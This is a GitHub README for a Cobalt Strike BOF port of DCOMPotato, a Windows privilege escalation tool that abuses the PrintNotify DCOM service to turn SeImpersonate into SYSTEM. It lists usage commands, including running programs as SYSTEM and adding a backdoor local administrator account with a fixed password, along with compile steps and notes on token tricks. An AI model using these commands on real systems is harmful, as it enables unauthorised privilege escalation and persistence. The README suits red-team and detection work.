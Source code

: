# BOF - DCOMPotato - PrintNotify

BOF version of [DCOMPotato](https://github.com/zcgonvh/DCOMPotato). Obtain SYSTEM privilege with `SeImpersonate` privilege by passing a malicious `IUnknwon` object to DCOM call of PrintNotify.

By default, [ImpersonationLevel](https://learn.microsoft.com/en-us/windows/win32/com/com-impersonation-level-constants) of PrintNotify service, which was run as SYSTEM, set as `RPC_C_IMP_LEVEL_IMPERSONATE` 

````
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Svchost\print
````



### Usage

```
--pprog : program to launch. Default cmd.exe
--pargs : command line argument to pass to program. Default NULL
--pmode : create process call. 1 for CreateProcessWithTokenW. 2 for CreateProcessAsUser. 3 for NetUserAdd Default 1
```

execute command with `CreateProcessWithTokenW`

```
DCOMPotato --pargs /c whoami /all > C:\temp\whoami.txt
```

execute command with `CreateProcessAsUser`

```
DCOMPotato --pargs /c net user hagrid P@ssw0rd /add --pmode 2
```

execute program with  `CreateProcessWithTokenW`

```
DCOMPotato --pprog C:\temp\callback.exe
```

create local administrator account (hagrid\\P@ss@29hagr!d) with NetUserAdd

```
DCOMPotato --pmode 3
```



### Compile

```
cl /c /GS- /FoDCOMPotato.x64.o /TP DCOMPotato.cpp
```



### Take Away

- You cannot create new object with C++ in Cobalt Strike when loading BOF. You can use struct to implement COM in C instead. Here is a [guide](https://www.codeproject.com/Articles/13601/COM-in-plain-C)
- `==` sign could be overloaded. It was overloaded as `IsEqualGUID` in my case
- Using flag `LOGON_TYPE_NEW_CREDENTIALS` can create a token that can be used for impersonate from `LogonUser` without providing valid credential
- According to the [document](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessasusera), a process that calls `CreateProcessAsUser` require `SE_INCREASE_QUOTA_NAME` and `SE_ASSIGNPRIMARYTOKEN_NAME` privilege.



### References

+ [DCOMPotato](https://github.com/zcgonvh/DCOMPotato)
+ https://github.com/rapid7/metasploit-framework/blob/master/external/source/exploits/ntapphelpcachecontrol/exploit/CaptureImpersonationToken.cpp
+ https://www.codeproject.com/Articles/13601/COM-in-plain-C
+ [MultiPotato](https://github.com/S3cur3Th1sSh1t/MultiPotato)



